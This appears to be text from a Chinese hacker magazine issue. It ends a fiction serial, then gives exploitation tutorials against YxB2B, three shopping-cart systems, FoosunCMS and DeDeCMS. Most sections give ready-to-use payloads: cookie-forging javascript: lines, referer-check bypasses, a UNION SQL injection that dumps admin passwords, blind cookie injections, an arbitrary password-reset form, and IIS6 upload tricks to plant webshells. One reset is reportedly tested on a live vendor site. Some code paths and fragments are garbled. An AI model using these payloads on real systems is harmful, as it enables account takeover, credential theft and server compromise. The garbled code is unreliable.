“哦，那么，你们是哪个高中的？”随后，徐洛只是笑，什么也没说。苏景突然明白了，这也许是不该问的问题，于是尴尬地道歉。徐洛笑开了，“呵呵，我们已经是大学生了，小茵妹。”这三个字一下子地撞击着苏景脆弱的心脏。许久，她才机械地转头面向司机，决定不再和后面的“神人”纠缠。

车还在郊区飞驰着，夏彩突然回过神来，吵着要下车。苏景说：“你不要告诉我你想下车买乐百氏。”后来，她吞回了那句话，因为夏彩欠扁的表情告诉她事实就是如此。

夏彩没走出多远，苏景突然想起什么似的大声叫住了她。

“你还知道什么？”苏景说这话的时候，Drew 和何瑞他们突然觉得头很晕。耳边阵阵嗡鸣，意识开始模糊，周围的色彩也开始化开。

夏彩止住了脚步，时间像是拉长了几个世纪，她缓缓地转过身，面无表情地看向苏景。那眼神让苏景顿时觉得头皮一紧，徐洛还站在原地，时间像是冻结住了。而时钟再次转动的时候，夏彩若无其事地转身拉着徐洛一蹦一跳地走了。苏景呆呆地望着两人的背影，巨大的恐惧袭来，将她瞬间击溃。

“为什么……我的催眠术没有用。”

（未完待续）

**编辑点评：**

各位《黑小说》的读者们，大家好。看完了《夜幕逆来临》的第四集之后，是不是感觉和以前有点不一样了呢？没错，谁都没有想到，一直陪在 CAT 身边的苏英泽居然是个名叫 “Drew” 的 FBI。在紧张的解救过程之后，CAT、苏景和她的同伴们也道出了通讯密文的解法。强悍的高中侦探们再一次汇聚到一起，后面的事态会如何发展，继续关注《黑客手册》就会告诉大家答案。

# 易想 B2B 系统漏洞分析利用

本文写的是一个很巧妙的 JavaScript 的 SQL Injection。

YxB2B 商务网是易想网络旗下的门户型 B2B 行业网站系统，是国内还算比较流行的一款 B2B 系统，本文将带大家分析下它的漏洞。

程序的漏洞都出现在客户输入的地方，脚本程序漏洞常见的也就是注入和上传了，一些特殊的漏洞还是要靠仔细分析代码才可以挖掘得到。

### ◎ 漏洞 1：

首先是 INC 目录下的 UPLOAD.ASP 文件，直接访问后提示如图 1 所示，这个上传文件是前台注册会员后上传文件使用的。程序首先判断是否从外部提交。有的朋友可能会说，直接注册不完了吗，还这么麻烦？还要绕过外部提交限制。

呵呵，如果关闭注册了不是没得玩了？而且大部分站点是关闭注册的，这里我贴部分重要代码出来，方便大家分析：

```vb
8:  server_v1=cstr(request.serverVariables("HTTP_REFERER"))
9:  server_v2=cstr(request.serverVariables("SERVER_NAME"))
10: if mid(server_v1,8,len(server_v2))<>server_v2 then
11:   response.write "你提交的路径有误，禁止从站点外部提交数据!"
12:   response.write "请从本站进入.<a href='"&HOPE_InstallDir&"'>"&HOPE_WebName&"</a>"
13:   response.end
14: end if
.....省略，详细看源代码
```

先绕过禁止外部提交再说！第 10 行代码这里，它判断了 HTTP_REFERER 和 SERVER_NAME 是否相同，绕过的方法有很多，可以自己编程改变 HTTP_REFERER 这个值。当然，对大部分新人来说，还是太麻烦，这里给大家说 2 个比较简单的绕过这个限制的方法。

- 方法 1：

先打开目标站的随便一个页面，然后在 IE 地址栏输入 `javascript:document.write("<a href=inc/upload.asp>点我</a>");`，页面会变成如图 2 所示，直接点击链接即可绕过禁止外部提交的限制。

- 方法 2：

先用鼎鼎大名的 Opera 浏览器，它有个功能可以直接查看源代码并修改后应用于网页本身。一般我们直接输入时，地址栏的网址 HTTP_REFERER 是没有值的。那么我就用它本身的页面加个连接指向 UPLOAD.ASP 的连接，这样不就有了 HTTP_REFERER 的值了？而且是它本身的，一定相同！

操作如下：先打开目标网站本身的一个页面，如图 3 所示。然后在页面空白处按鼠标右键选择查看源代码，在网页代码的最上面插入 `<a href=inc/upload.asp>点我</a>`，如图 4 所示。

这时浏览本页，页面上会多出一个“点我”的连接，如图 5 所示。点击这个连接即可绕过上面禁止外部提交的限制。

现在绕过禁止外部提交的限制了，接着我们看看如何直接传 SHELL，下面是最重要的部分，UPLOAD.ASP 文件的第 40 行内容：

```vb
40: if issession=0 then
41: globalecmaster=request.Cookies("username") ' 验证管理员
42: userid=request.Cookies("Yxmemberid") ' 验证会员
43: jobid=Request.Cookies("jobuserid") ' 验证人才会员
44: else
45: globalecmaster=session("globalecmaster")
46: userid=session("id")
47: jobid=session("jobid")
48: end if
49: if globalecmaster<>"" or userid<>"" or jobid<>"" then
开始上传部分代码……
```

程序只靠 request.Cookies 来获得一些重要的参数，但是却不去判断是否是系统本身的参数，并且下面的 49 行代码处的上传部分只是判断“globalecmaster<>"" or userid<>"" or jobid<>""”，只要不为空就直接开放上传。所以随便构造一个参数就可以打开上传的开关，当然程序也不会直接让我们传 ASP 大马的。

继续看代码第 70 行：

```vb
70: upload_dir="../Vipcom/"&guser&"/"
71: set objFSO=YxFSO
72: If objFSO.FolderExists(Server.MapPath("../Vipcom/"&guser&"/")) Then ' 如果存在就直接保存图片
73: Else
74: objFSO.CreateFolder(Server.MapPath("../Vipcom/"&guser&"/")) ' 不存在就建立一个目录
75: End If
```

这里保存的路径有个 guser 的变量，这个变量是我们可以直接控制的。往上面看，这个变量在代码第 59 行，`guser=Replace_Text(Request("guser"))`，是我们提交的。

这让我们想到了什么？虽然其他地方过滤得很严格，不让传 ASP，那么我们就传图片后缀，利用 WIN2003 的 IIS 解析漏洞，也就是构造的 guser 值为 X.ASP，那么它保存的图片便会在 X.ASP 这个目录下了。这样，即使是 JPG 格式的 SHELL，也可以访问并解析成功。

这里我们需要满足 3 个条件：一个是让上传处的 IF 语句为真；一个是绕过禁止外部提交的限制；还有一个就是构造特殊的 guser 变量。

- 1. 要想打开上传的开关，使 IF 语句为真，必须 `globalecmaster<>"" or userid<>"" or jobid<>""`。这 3 个有一个不为空就行了。而且从上面可以看出，参数全是通过 `Request.Cookies` 获得的，所以我们只要构造一个就可以了，利用代码为：`javascript:alert(document.cookie="Yxmemberid="+escape("1"));`
- 2. 这里绕过从外部提交我选择第二种，代码为：`javascript:document.write("<a href=inc/upload.aspinc/upload.asp?tMode=6&istwo=1&qutype=guser&guser=x.asp>点我</a>");`
- 3. guser 变量直接在 URL 里给出，`*.ASP` 的一个参数就可以了，其它参数是一些其它的值，这里就不分析了，大家自己分析代码吧。构造好的 URL 为：`upload.asp?tMode=6&istwo=1&qutype=guser&guser=x.asp`。

至此，完整的利用代码为：

```javascript
javascript:alert(document.cookie="Yxmemberid="+escape("1"));javascript:document.write("<a href=inc/upload.aspinc/upload.asp?tMode=6&istwo=1&qutype=guser&guser=x.asp>点我</a>");
```

这里的 `guser=x.asp`，这个 `X.ASP` 就是我们利用的目录。选择一个图片上传后，自动回显路径，完整的 shell 路径为：`http://目标/Vipcom/x.asp/随机的文件.JPG`，如图 6 所示。

后来发现，在同目录下有个 UPLOADX.ASP 文件，代码和上面的基本一样，不同的是没有限制外部提交，利用方法和上面一样，省去了绕过直接输入限制的步骤，可以直接传大马。

### ◎ 漏洞 2：

漏洞来自 `admin/check_replacelogo.asp` 文件，这个后台文件没有加验证，可以直接访问，重要代码如下：

```vb
3: logourl=request("id")

8: if (fileExt<>"jpg" and fileExt<>"gif") then
......
23: set fso=Server.CreateObject("Scripting.fileSystemObject")
24: if fso.FileExists(Server.MapPath(logourl)) then
25:   'fso.DeleteFile(Server.MapPath(logourl))
26:   files.SaveToFile Path
27: else
28:   'fso.CreateFile(Server.MapPath("logourl"))
29:   files.SaveToFile Path
```

24—29 行，程序经过判断后，直接将从 logourl 获得的参数保存成文件，而 logourl 在程序第 3 行 `logourl=request("id")` 处没有作任何过滤。

看上面部分代码，第 8 行的判断是很死的，不可能加入其它后缀而绕过限制。但是 LOGOURL 的值我们是可以控制的，结合最新出的解析漏洞 `*.asp;*.jpg`，依然是可以解析 ASP 的，直接提交上传即可。

为了方便大家利用，我做了个提交页面打包给大家。这里主要是思路，不做过多解释。

### ◎ 漏洞 3：

这里是 `admin/manageorder/fq_orderview.asp` 文件，过滤不严导致可以直接注射，不过没想象中的那么顺利，相关代码如下：

```vb
25: if issession=0 then
26:   if request.Cookies("Yxmemberid")="" then
27:     response.write "<script language='javascript'>"
28:     response.write "parent.location.href='../login/login1.asp';</SCRIPT>"
```

```vb
47: orderid=request("id")
......
55:set rs=server.CreateObject("adodb.recordset")
56:sql="select * from yixiang_fq_order where id="&orderid&""
```

第 47 行，参数没有任何过滤直接代入第 56 行的 SQL 直接执行。但是，直接访问立马跳到主页，根本执行不到 SQL 语句。

分析下第 26 行，如果 `request.Cookies("Yxmemberid")=""` 就跳到登录页面，后面的根本执行不到，它是靠 `request.Cookies` 获得值。这个我们自己可以构造一个值满足它不为空就可以了，语句为：

```javascript
javascript:alert(document.cookie="Yxmemberid="+escape("1"));
```

将以上语句放入 IE 直接回车，然后输入 `HTTP://url/admin/manageorder/fq_orderview.asp?id=1` 即可看到页面数据，这样就顺利执行到后面的 SQL 语句了（注：程序默认是有 1 个数据的，它的 ID 值就是 1）。

接下来就爆密码吧，如果是 MsSQL 数据库，大家自由发挥，方法很多，我就直接给一个 UNION 直接爆密码的语句吧：

**`fq_orderview.asp?id=1 and 1=2 union select 1,username,3,4,password,6,7,8,9,10,11,12,13,14,15,16,17 from yixiang_worldec_master`**

执行后如图 7 所示。

进入后台拿 SHELL 就不分析了，大家自由发挥。到此，这套程序的漏洞分析完了，当然还有没有挖掘到的地方，这就靠大家的慧眼了。

（作者写的 YXB2Bup.html 上传漏洞利用程序已收集在本期光盘）

> 编辑点评：
> 很好的一篇文章，有分析，有方法，有技巧，看作者对程序代码抽丝剥茧，真是一种享受。

## 采人挖掘网购系统漏洞

本文分析了三套网购系统源码，漏洞利用方式也不相同，要细看一下。

最近朋友说要弄个购物站点，发来了几套程序让我帮忙看下，还说什么死活也得给他揪出几个漏洞来，要不没办法向他交差。接过程序后，就开始在茫茫代码中寻找那一丝艾蒿的希望。看了一下，一共有三套系统，都是从官方下载的最新版，下面是偶的分析结果及过程。

## 一、时代商城购物系统之 Post 注射

这是官方的最新版本，在网上搜了下，貌似没听说过这个系统有什么漏洞。那好，今天咱就把它给挖掘出来，以下是偶的挖掘成果。

- 漏洞之源
- 1、无奈的 conn.asp 注入
- 先来看看 conn.asp 文件的关键代码：

```vb
/************* 很羡慕华丽的代码分割线 *************/
Dim strTitle,LngDiscount,strUserName,LngUserID,LngGrpID,LngDeposit,rsVip,
strUserEmail
LngDiscount = 1
LngUserID = 0
LngDeposit = 0
strUserName = "非注册用户"
strTitle = "非注册用户"
if Request.Cookies("timesshop")("username")<>"" then
```

### 3、实例演练

通过 Request.Cookies 取得 username 的值，仅判断是否为空就丢到下面的 SQL 里执行。

```asp
set rsVip=server.CreateObject("adodb.recordset")
rsVip.open "select [User].GrpID,[User].UserID,[User].Score,[User].UserEmail,[User].Deposit,[User].UserName,TimesGrp.GrpName,TimesGrp.Stars from [User] Inner Join TimesGrp On [User].GrpID = TimesGrp.GrpID where username='"&request.Cookies("timeseshop")("username")&"'", conn,1,1
if not rsVip.eof then
    strTitle = rsVip("GrpName")
    LngDiscount = rsVip("Stars")
    LngGrpID = Clng(rsVip("GrpID"))
    strUserName = rsVip("UserName")
    LngUserID = Clng(rsVip("UserID"))
    LngScore = Clng(rsVip("Score"))
    LngDeposit = rsVip("Deposit")
    strUserEmail = rsVip("UserEmail")
    rsVip.close
else
    set rsVip=nothing
end if
```

> /************ 很美很华丽的代码分割线 ************/

这个所谓的漏洞呢，我在本地通过在 SQL 语句下面添加判断和输出代码，用 cookie 测试成功。但是在实际中，我不知道这算不算是一个漏洞。为什么呢？因为 Access SQL 不支持多句查询，union 后面又不允许行为查询，现在最要命的是，无论查询执行结果怎么样，它都不返回任何东西。我尝试着让 SQL 语句出错，还是没有返回任何东西，这样无论是 Union，还是在猜表的时候，都行不通。但如果知道它的沙盒开了的话，可以试下执行命令。

以上是针对 Access 版本而言，不过这个漏洞在 SQL Server 版本中还是有利用的地方，看起来这是个鸡肋。

### 2、致命的支付方式

漏洞出现在文件 detail.asp 中，我们看看如下的关键代码：

> /************ 很美很华丽的代码分割线 ************/

```asp
<%
<br>送货方式：<%
rs.open "select * from delivery where deliveryid="&int(request.form("deliverymethod")),conn,1,1
if rs.eof and rs.bof then
    response.write "方式已经被删除"
    Message=message & "送货方式：方式已经被删除<br>"
else
    response.Write trim(rs("subject"))&"(送货费用："
    response.Write (rs("fee"))&"元，方式加收"
    response.Write (rs("payfee"))&"%)"
    Message=message & "送货方式："& rs("subject") & "("
    Message=message & "" & rs("fee") & ") <br>"
end if
rs.close %>
<br>支付方式：<%
rs.open "select * from delivery where deliveryid="&request.form("paymethod"),conn,1,1
if rs.eof and rs.bof then
    response.write "方式已经被删除"
    Message=message & "总方式：方式已经被删除<br>"
else
    response.Write trim(rs("subject"))
    Message=message & "方式："& rs("subject") & "<br>"
    执行正常则输出支付方式
end if
rs.close
...
%>
```

> /************ 很美很华丽的代码分割线 ************/

这里是用 request.form 取得的 paymethod 参数，未经过滤就直接丢到 SQL 里查询，是一个很明显的 SQL 注入。通过分析代码得知，这个页面是由 payment.asp 文件引用的，paymethod 参数是 payment.asp 文件表单里的支付方式的值，而 payment.asp 文件是一个购物表单的提交页面。现在我们要利用这个漏洞很简单，只要改变要提交的表单里的值即可。下面来演练一下。

既然 paymethod 参数是表单里的支付方式的值，按照程序流程，那我们就要先去购物，然后提交订单才能选择我们的支付方式，从而去修改它里面的值再提交。

先去注册一个账户，然后随便选点商品丢到购物车里，再去收银台填写提交表单。如图 1，这是收银的表单提交页面，这里的支付方式我选的是“网上支付”。在“提交”后的支付页面里，会显示你的支付方式，如图 2。

现在来按浏览器的“后退”，回到支付页面，查看源代码，搜索“paymethod”，找到 name=paymethod 的表单项，把整个表单保存到本地，修改一下 action 的地址，指向 `http://localhost/tshop/payment.asp?action=3`。去掉一些不必要的代码，留下所需要提交的表单代码即可。

现在修改一下表里支付方式选项的代码：

```html
<option value=25>网上支付</option>
```

给它加上 selected 和改下 value，变成如下形式：

```html
<option value="25 and 1=1" selected>网上支付</option>
```

修改完毕并保存后提交即可。这里的 value 值是我们要插入注入代码的地方，每次提交都要改的话太麻烦，所以我写了一个更方便的表单，如图 3，大家可以在光盘里找。

现在我们在表单里填上 SQL 语句：“25 union select 1,2,3,4,5,6 from admin”，然后再去购物，点“提交”。注意，这里每提交一次之前都要购买一次物品，因为我们提交表单后购物车就空了，所以要保证购物车里有商品才能提交表单。

数据库拿 shell，相信大伙都会。

我的目的是分析代码找漏洞，不是搞站，所以我就不演示拿 shell 了，点到即可，有兴趣的朋友自己玩玩吧。接着来看下一个系统能够挖掘出什么漏洞。

## 二、乐度网店系统之 Cookie 注射

### 1、漏洞之源

这个程序通过 conn.asp 文件包含一个检测注入代码的 ChPostGetFunc.asp 文件。这个过滤文件的代码由于我无法突破，为了节约版面这里就不贴出来了。不过经过分析代码后得知，它只是过滤了 Get 和 Post 提交过来的数据，而没有对 Cookie 方式提交过来的数据作检测，那么现在我们要做的就是寻找 Cookie 的注射漏洞。

但这个程序里面大部分都是用 .QueryString 和 Form 来接收变量，代码茫茫，怎么找呢？我们只要查找 request 即可。

在所有文件中搜索关键字 “request(”，然后再分析里面的 SQL 语句是否使用未过滤的 request 直接接收过来的变量即可，用工具来找很方便的。

下面是我找到的一个文件，文件名 **cart4Handler.asp**，在这个文件中我们看到的关键代码如下：

```asp
/*************** 很美很华丽的代码分割线 ***************/
<%
Server.ScriptTimeout=20
Response.Charset="gb2312"
scid=Request("scid")    ' 用 Request 接收 scid 的值
if scid<>"" Then         ' 仅判断是否为空就放入下面 SQL 语句查询

set Frs=lodo_Execute("Select Lodo_ShopingCar.Gid as Gid,Lodo_ShopingCar.GQuantity as GQuantity,Lodo_OrderForm.OrderState as OrderState,Lodo_OrderForm.OrderPayState as OrderPayState,Lodo_OrderForm.Ordernumber as Ordernumber from Lodo_ShopingCar,Lodo_OrderForm where Lodo_OrderForm.Ordernumber=Lodo_ShopingCar.OrderNum And Lodo_ShopingCar.ID="&scid)
    if Not(Frs.Eof Or Frs.Bof) Then
        ' 下面判断是否支付
        if Frs("OrderState")=4 Or Frs("OrderState")=5 Or Frs("OrderPayState")<>1 Then
            Response.Write "<ul>"
            Set Rs=lodo_Execute("Select Top "&Frs("GQuantity")&" Contents from Lodo_Goods where Status='' And PurchaseOrder='"&Frs("Ordernumber")&"' And GoodsID='"&Frs("Gid")&"'")
```

```asp
Rs.Close:set rs=nothing
Response.Write "</ul>"
Else
  Response.Write "还未支付！"
End If
Else
  Response.Write "没有此订单！"
End If
Frs.Close:set Frs=Nothing
End If
Call Page.End()
%>

/************* 很美很华丽的代码分割线 *************/
```

在注入的时候我们根据此句的输出判断第一条 SQL 语句是否正确执行。

这个就不用解释了，相信大家都能看懂。不过有个前提是，我们要保证第一条 SQL 语句的正常执行，就必须得让 scid 是个存在的值，这样才能根据后面的显示来判断我们构造的语句是否执行成功。

### 2、实例演练

下面我们来看看怎么利用，首先要做的是找出一个存在 scid 变量的值。我在本地搭建了一个环境，先在网站上注册一个账户并登录，然后随便把一件物品放入购物车里，如图 7。

然后点右边的修改，这时要注意 URL 地址栏了，它会快速地转向一个页面然后又迅速返回，要快！一定要快！否则还没看清就返回了！不过你可以按浏览器的后退按钮再看一遍。

要的就是这关键的一刻，在转向页面的时候 URL 地址栏出现了一个参数：Cid=771，如图 8。没错，要的就是它，把它记下来作为 scid 的参考数值。

接下来填写订单，选择“货到付款”，提交订单。然后直接访问 `http://localhost/lshop/cart4handler.asp?scid=771`，我们看到页面显示的是“还未支付”，而不是“没有此订单”，这说明我们上面分析的第一条 SQL 能正常执行了。

现在我们要做的就是设置一个名为 scid 的 cookie，值为“771 + 注入语句”。先直接访问 `http://localhost/lshop/cart4handler.asp`，让它没有参数接收，以便等会我们刷新时接收 Cookie 的变量。因为 request 的 cookie 接收顺序比 QueryString 低（地球人都知道，呵呵），这时页面会显示“没有此订单”。

接着就是大家所熟悉的 cookie 注射了，先提交 `javascript:alert(document.cookie="scid="+escape("771"))` 后回车，设置 scid 的值为 771，刷新，可以看到页面又变回显示“还未支付”的提示（返回正常），这说明 scid 的值被以 cookie 的方式接收了，接下来就是按部就班地提交了。

```asp
CGnum=0
Do While Not Rs.Eof And CGnum<Frs("GQuantity")
  Response.Write "<li>"
  Response.Write Rs("Contents")
  Response.Write "</li>"
  CGnum=CGnum+1
  Rs.MoveNext
Loop
```

提交 `javascript:alert(document.cookie="scid="+escape("771 and 1=1"))` 后回车，刷新，显示“还未支付”；提交 `javascript:alert(document.cookie="scid="+escape("771 and 1=2"))` 后回车，刷新，显示“没有此订单”。

由于无法显示从数据库查询出来的值，所以这里无法用 union 来显示字段值，只能一个个地判断。

提交 `javascript:alert(document.cookie="scid="+escape("771 and exists (select adminname,adminpass from lodo_adminuser)"))` 后回车，刷新，显示“还未支付”，说明存在表 `lodo_adminuser` 和字段 `adminname`、`adminpass`，如图 9。点到为止，接下来的手工活我就不浪费版面了，相信菜鸟们都熟。

## 三、网趣购物系统之注射＆随意修改任意用户名密码

之前的网趣系统多个文件出现 SQL 注射漏洞，我拿到的这个系统漏洞也不少，现在的最新版本已经加入了防注代码，但是仍然没有对 cookie 提交的数据作过滤，这好像是一种通病！很多程序员都知道自己的程序有漏洞，但他防注的时候偏偏不去过滤 cookie 提交的数据，难道他是不知道吗？我想他应该不会不知道，而是一种意识问题。

下面我们来看下其中的注射和随意修改任意用户名密码这两个漏洞。

### 1、漏洞出现在文件 `getpwd4.asp` 中，关键代码如下：

```asp
/* ************** 很美很华丽的段落分割线 ************** */

<%
username=request("username")    'request 直接接收变量 username
passwd=md5(trim(request.form("passwd")))
set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from [user] where username='"&username&"'"    '变量 username 未过滤
rs.open sql,conn,1,3
If rs.eof Then
%>
<script language="javascript">
alert("这个用户还没有注册呢，赶快到首页注册吧！")
location.href='javascript:history.back()'
</script>
<%
else
rs("userpassword")=passwd    '如果有记录返回则更新 userpassword
rs.update
end if
rs.close
set rs=nothing
conn.close
set conn=nothing
%>
<html><head><title>取回密码</title>
<meta http-equiv="Content-Language" content="zh-cn">
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link href="images/css.css" rel="stylesheet" type="text/css">
</head>
<body topmargin="20" leftmargin="0" oncontextmenu="self.event.returnValue=false">
<table width="320" border="0" align="center" cellpadding="1" cellspacing="1" bgcolor="#6FA8CB" style="border-collapse: collapse" collapse>
<tr>
<td height="100" bgcolor="#F8FAFB">
<p align="center">新密码设置成功，请返回首页<a href="index.asp">重新登录</a>！</p>
</td>
```

```html
</br>
```

```asp
/************** 很美很华丽的段落分割线 **************/
```

我们可以看到变量 username 是直接用 request 接收的，程序的思路是想接收从上一个设置密码的表单文件中提交过来的变量。不过在这里我们可以不给它提交表单变量，而让它来接收我们设置的 cookie。passwd 是用 request.form 来接收的，我们就用表单来提交。

通过上述分析，相信大家都了解思路了，下面就来演示一下如何更改任意用户密码。

### 2、实例演练

假如有一个名为“testtest”的用户，我们不知道它的密码，现在要把它的密码修改为 123456，那么先构造一个表单，代码如下：

```html
<form method="post" action="http://localhost/nshop/getpwd4.asp" >
<input name="passwd" type="text" id="receipt" size="12" value="123456">
<input class=go-wenbenkuang type="submit" value="设置密码" name="submit">
</form>
```

其中第一行中的 value 是我们想要设置的密码。然后再打开 `http://localhost/nshop/`，在 IE 地址栏里提交：`javascript:alert(document.cookie="username="+escape("testtest"))` 后回车。注意，这里的 testtest 为你要改密码的用户名，可以替换为别人的用户名，这样就把 cookie 中 username 的值设置成了 testtest。

接着在表单按下设置按钮，如图 10，显示密码更改成功，用更改密码后的账户登录成功，如图 11（在官方网测试成功）。下面来看这个文件的 SQL 注射，这里我们要注射的变量是 username，而 passwd 依然用刚才那个表单来提交。

先打开 `http://localhost/tshop/`，提交：`javascript:alert(document.cookie="username="+escape("testtest' and '1'='1"))` 后回车，然后提交刚才那个表单，出现了如图 9 一样的“更改密码成功”提示。

再提交：`javascript:alert(document.cookie="username="+escape("testtest' and '1'='2"))``，刷新后如图 12，可以看到提示没有这个用户。

结合上面的代码，我们可以知道提交的 SQL 语句正常执行了，但是这里是字符型的注入，我们的注入语句需要闭合后面的单引号。

接下来可以构造如下语句来猜字段值：

```javascript
javascript:alert(document.cookie="username="+escape('testtest' and (select len(password) from cnhww)>15 and '1'='1'))

javascript:alert(document.cookie="username="+escape('testtest' and (select top 1 asc(mid(admin,1,1)) from cnhww)>96 and '1'='1'))
```

这里我只给出一条猜字段长度和字段值的语句，其它的大家对应改一下就行了，发挥一下你的手工活，很快就能猜出管理员的用户名和密码来。由于这基础的东西大家都写烂了，这里我就不浪费版面了，不懂的可以翻一下以前的“黑手”。

## 四、总结

我只分析了上面的三套系统，而且在找到一个致命漏洞之后就没有再继续分析下去，深入下去可能会挖出更多的漏洞。而且这些漏洞用工具来扫都是很难发现的，所以这几套程序外表看起来安全，只要翻下代码，内部其实不堪一击。

对于其它的系统，我不知道，但我相信，没有一套系统能够做到百分之百的安全，希望看过此文的人能够慎重选择系统，也希望官方能够及时打好补丁，把系统做得更安全。

> 编辑点评：
>
> 有漏洞栏目时，估计很多读者都是跳过代码直接看分析过程和利用方法，其实我也不例外，代码看得实在是头晕。不过本文里代码虽然多，但也值得细细看一下，弄清楚作者的分析过程，会有收获的。

本文写的是一次实际测试过程

最新的风讯网站内容管理系统是 FoosunCMS 4.0 sp7 版本，这个漏洞只测试了 asp+access 数据库，mssql 数据库的没有测试，可能也存在类似漏洞。

FoosunCMS 4.0 sp7 版本的漏洞存在于用户建立目录的地方，名称过滤上有失误，导致可以绕过过滤建立一个 .asp 目录。在 Windows 2003 服务器 + IIS 6.0 的环境下，可以上传一个图片格式的文件到建立的 .asp 目录里，图片格式文件会被作为 asp 文件解析执行。下面，我们开始漏洞分析与利用。

# 一、漏洞分析

首先去官方网站下载一套最新的 Foosun 4.0 sp7 免费版，是 asp+access 架构。由于我本机是 XP 系统，漏洞测试是在虚拟机里进行的，环境是 Windows 2003 + IIS 6.0。

网站测试一切正常，漏洞出现在文件 User/CommPages/FolderImageList.asp 里，我们一起看一下源代码，如图 1。

```text
从图1中我们可以看到，程序先获取了 otype 的值，如果 otype=addfolder，就新建目录。再看新建目录里怎么写的，先获取 path 的值，如果不为空，就用 right() 函数取最右边的一位。如果最右边一位等于“/”，就去掉“/”符号，取 path 剩下的值，再利用 ReplaceExpChar() 函数对 path 剩下的值进行判断。
```

```text
我们再来看 ReplaceExpChar() 函数，它的主要作用就是检测在字符串中是否含有除 a-z、A-Z、0-9 以外的字符串。如果含有的话，就会返回 False。我想朋友们也看出来了，过滤得不严！下面，我们来测试一下漏洞。
```

## 二、漏洞利用

我们先去注册一个用户，地址是 http://1.1.1.4/user/Reg_service.asp，注册成功后一定要记下用户编号，在后面会利用到，我的用户编号是 1609481DG1F。

接下来我们提交构造好的漏洞利用语句，建立一个 aaa.asp 的目录：http://1.1.1.4/user/CommPages/FolderImageList.asp?f_UserNumber=1609481DG1F&fType=AddFolder&Path=/userfiles/1609481DG1F/aaa.asp//&CurrPath=/userfiles/1609481DG1F，其中的 1609481DG1F 是我们注册用户的 userid 编号。

图 3

从图 2 中我们可以看到，aaa.asp 目录已经成功建立了，接着我们传图片到 aaa.asp 目录下。由于风讯浏览目录的地方也过滤了，所以建立的子目录进去不了，只有在本地构造表单来传一句话木马的图片到 aaa.asp 目录上去，表单代码如图 3。

从图 3 中我们可以看到，表单设置了隐藏的属性值，就是 aaa.asp 目录。上传一个后缀名为 gif、文件头部为 GIF89a 的木马到 aaa.asp 目录里，这里很重要，因为风讯对文件内容也会过滤，如果文件头部没有 GIF89a，文件是传不上去的。

提交文件以后页面没有提示，其实已经成功把文件传到 aaa.asp 目录下了，如图 4。接着进行访问，正常浏览，如图 5。

图 4

现在问题来了，我们怎么能得到这个文件名呢？传上去的文件名是以“日期 + 时间 + 7 位随机数”命名，前面的“日期 + 时间”好办，先在正常目录里上传个文件，然后马上上传文件到 aaa.asp 目录里就行。但后面那 7 位随机数怎么办呢？

网上有人说“管中窥豹”竟然有个暴力猜解上传路径的功能，先在正常目录里上传个文件，卡一下本地跟远程的时间差，然后传到 aaa.asp 目录里，把秒数误差控制在 3 秒以内，开始跑吧，RP 过关的话，几个小时内应该能出结果。由于下了几个“管中窥豹”都用不了，这个办法我没试过，应该可以。

我这里用红狼安全小组出品的网站后台扫描器 wscan2.0 试了一下，原理和上面差不多，使用方法见其说明文件，运气好的话，可能几个小时就应该出结果了（希望某位大牛能想出更好的办法获取上传的文件名）。

## 三、总结

风讯网站内容管理系统最新 0day 分析与利用到这里就结束了，利用方法有点鸡肋，试过很多其它方法，都不能获取到上传的文件名。不过如果运气好的话，还是能拿到 WebShell 的。

漏洞修补方法：只要对 path 变量进行过滤就可以了，过滤掉最危险的“.”符号，这样就没办法建立 aaa.asp 类似的目录了。

文章中使用的工具我会一起打包，如果有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

> （文章里上传的 1.htm 已收录在本期光盘）

编辑点评：至于上传后直接找到 WebShell，我也没有想到好的利用办法，其实暴力来猜也是一种选择，如果对方没有自定义错误页面什么的，生个字典跑出来也不是难事。

图 5

本文写的是一次 XSS 的分析

DeDeCMS 最近频繁出现漏洞，前两天跨站大神猪哥就又发现了一个 XSS 跨站的 0day，交由我来分析之。猪哥找到的 XSS 存在于 XSS 高发的搜索页面上，我在本地搭建了一个 WAMP（Windows XP-sp3、Apache 2.0、MySQL 5.0.83、PHP 5.2.10-win32）环境，下载了一套 5.3 版本的 DeDeCMS 用于测试与分析。

这套系统和搜索页面有关的页面共三个，分别是“/plus”目录下的 search.php、“/include”目录下的 common.inc.php 和 arc.searchview.class.php。

在 common.inc.php 中对用户提交的变量做了检测和过滤，代码如下：

```php
function _RunMagicQuotes(&$svar)
{
    if(!get_magic_quotes_gpc())
    {
        if(is_array($svar))
        {
            foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
        }
        else
        {
            $svar = addslashes($svar);
        }
    }
    return $svar;
}

foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

```php
$nums = count($aidarr)-1;
$aids = implode(',', $aidarr);
$delete = "Delete From `#@__arccache` where uptime<'".(time()-3600*24)."'";
$this->dsql->SetQuery($delete);
$this->dsql->ExecuteNoneQuery();
$insert = "Insert into `#@__arccache` (`md5hash`,`uptime`,`cachedata`) values ('$hascode','$uptime','$aids')";
$this->dsql->SetQuery($insert);
$this->dsql->ExecuteNoneQuery();
$this->TotalResult = $nums;
```

is_array(xx) 函数是 PHP 内置函数，当括号内的 xx 是数组时，输出为真；当括号内的 xx 非数组时，输出为假。

addslashes(xx) 函数则起到了在 GPC 关闭时转义的作用，转义的字符有单引号、双引号、反斜线（\）与 NULL（NULL 字符）。

在 PHP 的官方忽略 GPC 选项中我们看到，出于程序可移植性的考虑，GPC 函数将不复存在，而到那时，我们可以想象到 addslashes 函数可能会作为 GPC 的替代品，用来过滤危险的字符。

foreach() 函数则是递归调用括号内的数组成员，这样做的目的是确保每个变量都能经过过滤和转义，以提高安全性。

从代码中可以看到，无论 GPC 开启与否，无论提交的变量是什么形式，系统对用户手动提交的变量都做了严格而且严密的过滤和转义处理，用户提交的变量不会引起 XSS 跨站。

总的来说，dedecms 在用户提交的变量的过滤上还是很经典的，虽然有点繁琐，但是其采用的两种过滤方法对于编写 CMS、论坛乃至博客程序的朋友们来说还是很有借鉴价值的，值得我们学习。但是这里系统只是对用户手动提交的变量做了处理，对于系统自动赋值的变量，这段语句是不管用的，我们可以从系统变量中找到突破口。

